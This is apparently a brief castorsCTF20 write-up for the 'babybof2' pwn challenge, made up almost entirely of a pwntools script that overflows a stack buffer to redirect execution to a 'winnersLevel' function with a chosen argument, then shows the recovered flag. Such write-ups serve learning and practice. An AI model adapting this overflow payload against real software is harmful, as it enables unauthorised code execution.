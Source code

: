 ```yaml
---
type: "post"
title: "castorsCTF20 - babybof2"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "pwn", "castorsCTF20"]
---
```


<!--more-->
With same strategy as `babybof1` we can get the flag

```python
from pwn import *

winnersLevel_addr = 0x08049196
param_1 = 0x182

#p = process("./winners")
p = remote("chals20.cybercastors.com", 14434)

padding = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
payload = padding + p32(winnersLevel_addr) + "CCCC" + p32(param_1)
p.sendline(payload)
print(payload)
p.interactive()
```

**Flag:** `castorsCTF{b0F_s_4r3_V3rry_fuN_4m_l_r1ght}`



